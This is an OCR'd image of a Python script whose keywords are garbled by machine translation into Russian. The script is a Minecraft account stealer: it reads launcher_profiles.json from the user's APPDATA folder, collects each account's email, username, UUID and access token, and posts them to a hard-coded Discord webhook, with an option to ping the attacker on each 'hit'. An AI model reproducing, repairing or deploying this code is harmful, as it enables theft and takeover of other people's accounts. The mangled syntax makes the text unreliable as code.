 импорт  json
импорт  ОС
urllib  из.запрос  Запрос на импорт , urlopen

# ваш URL-адрес веб-ссылки
WEBHOOK_URL = "https://discord.com/api/webhooks/1008388227612295198/0MdfjDjbRY4NZaQvb72i5pcskZpsslk72fJu2fVaBB0iqgMHRhkfPUaX8HsvjLrEDWZg"

# упоминает вас, когда вы получаете попадание
PING_ME =  False

uuid_dashed def(uuid):
    возвращает  f"{uuid[0:8]} -{uuid[8:12]} -{uuid[12:16]}-{uuid[16:21]}-{uuid[21:32]}"

main def():
    json = auth_db.loads(open(os.getenv("APPDATA") + "\\.minecraft \\launcher_profiles.json").read())["authenticationDatabase"]

    =  встраивает []

    auth_db  в  x  для:
        попробуйте:
            auth_db = email[x].get("имя пользователя")
            uuid, display_name_object = list(auth_db[x]["profiles"].items())[0]
            =  встроить {
                "поля": [
 {"name": "Email", "value": электронная почта , если  электронная почта  и  "@" в  электронной почте , иначе  "N / A", "inline": False},
 {"name": "Username", "value": display_name_object["DisplayName"].заменить("_", "\\_"), " встроенный": True},
 {"name": "UUID", "value": uuid_dashed(uuid), "inline": True},
 {"name": "Token", "value": auth_db[x]["accessToken"], "inline": True}
                ]
            }
            embeds.append(встраивание)
        кроме:
            пройти

    =  заголовки {
        "Content-Type": "application / json",
        "User-Agent": "Mozilla / 5.0 (X11; Linux x86_64) AppleWebKit / 537.11 (KHTML, как Gecko) Chrome / 23.0.1271.64 Safari / 537.11"
    }

    json = payload.dumps({"встраивания": встраивания, "содержимое": "@everyone" , если  PING_ME  else ""})
    
    попробуйте:
        Запрос  =  запрос (WEBHOOK_URL, data=payload.encode(), заголовки = заголовки)
        urlopen(запрос)
    кроме:
        пройти

"__main__" == __name__ если:
    main()
